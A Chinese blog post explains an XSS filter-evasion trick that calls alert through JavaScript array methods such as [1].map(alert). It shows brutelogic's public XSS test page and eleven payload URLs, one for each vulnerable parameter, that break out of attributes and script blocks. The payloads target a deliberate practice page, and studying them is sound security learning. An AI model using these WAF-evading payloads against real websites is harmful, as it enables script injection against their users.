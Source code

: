 ```yaml
---
layout: post
author: "kele"
title: "使用 javascript数组方法进行xss攻击"
date: "2018-2-21"
tags: 
  - xss
---
```

# 使用数组方法进行xss 攻击   

[原文地址](https://twitter.com/brutelogic/status/965642032424407040)  

```
JS Execution 
Array Methods

[1].map(alert)
[1].find(alert)
[1].every(alert)
[1].filter(alert)
[1].findIndex(alert)
```

主要是不适用`alert()`,感觉有点蛋疼，因为一般waf都是过滤alert，所以我还是试了一下     

作者给了一个简单的测试页面  http://brutelogic.com.br/xss.php   

一共11各变量用来输入，进行xss攻击   

```
<!DOCTYPE html>
<head>
<!-- XSS in 11 URL parameters (a, b1, b2, b3, b4, c1, c2, c3, c4, c5 and c6) + URL itself -->
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>XSS Test Page by Brute Logic</title>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
</head>
<body>
<h1>XSS Test</h1>
by <a href="https://twitter.com/brutelogic">@brutelogic</a>
<br><br>
<!-- Simple HTMLi -->
Hello, guest!
<br>
<br>
<br>
Find user profile providing one or more below: 
<!-- URL Reflection -->
<form action="/xss.php" method="POST">
<br>
User
<br>
<!-- Inline HTMLi (Double Quotes) -->
<input type="text" name="b1" value="">
<br>
<br>
Email
<br>
<!-- Inline HTMLi (Single Quotes) -->
<input type="text" name="b2" value=''>
<br>
<br>
Name
<br>
<!-- Inline HTMLi - No Tag Breaking (Double Quotes) -->
<input type="text" name="b3" value="">
<br>
<br>
Group
<br>
<!-- Inline HTMLi - No Tag Breaking (Single Quotes) -->
<input type="text" name="b4" value=''>
<br>
<br>
<input type="submit" id="i" value="Find">
</form>
<script>
	// HTMLi in Js Block (Single Quotes)
	var c1 = '-alert(1)//';

	// HTMLi in Js Block (Double Quotes)
	var c2 = "value2";

	// Simple Js Injection (Single Quotes)
	var c3 = 'value3';

	// Simple Js Injection (Double Quotes)
	var c4 = "value4";

	// Escaped Js Injection (Single Quotes)
	var c5 = 'value5';

	// Escaped Js Injection (Double Quotes)
	var c6 = "value6";

</script>
<!-- <script src="https://cdnjs.cloudflare.com/ajax/libs/less.js/2.7.1/less.min.js"></script> -->
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
<script src=/x.js></script>
</body>
</html>
```


payload:  
emmmmmm我的payload可以用firefox通过，chrome有防止xss的功能    
1. `http://brutelogic.com.br/xss.php?a=<svg onload=[1].map(alert)>`
1. `http://brutelogic.com.br/xss.php?b1="><svg onload=[1].map(alert)>`
1. `http://brutelogic.com.br/xss.php?b2='><svg onload=[1].map(alert)>`
1. `http://brutelogic.com.br/xss.php?b3=" onmouseover=[1].map(alert)//`
1. `http://brutelogic.com.br/xss.php?b4=' onmouseover=[1].map(alert)//`
1. `http://brutelogic.com.br/xss.php?c1=</script><svg onload=[1].map(alert)>`
1. `http://brutelogic.com.br/xss.php?c2=</script><svg onload=[1].map(alert)>`
1. `http://brutelogic.com.br/xss.php?c3='-[1].map(alert)-'`
1. `http://brutelogic.com.br/xss.php?c4="-[1].map(alert)-"`
1. `http://brutelogic.com.br/xss.php?c5=\'-[1].map(alert)//`
1. `http://brutelogic.com.br/xss.php?c6=\"-[1].map(alert)//` 

emmmm c1和c2的payload 我用的是一样的，可能有点问题？后面有后续报道再说吧。。。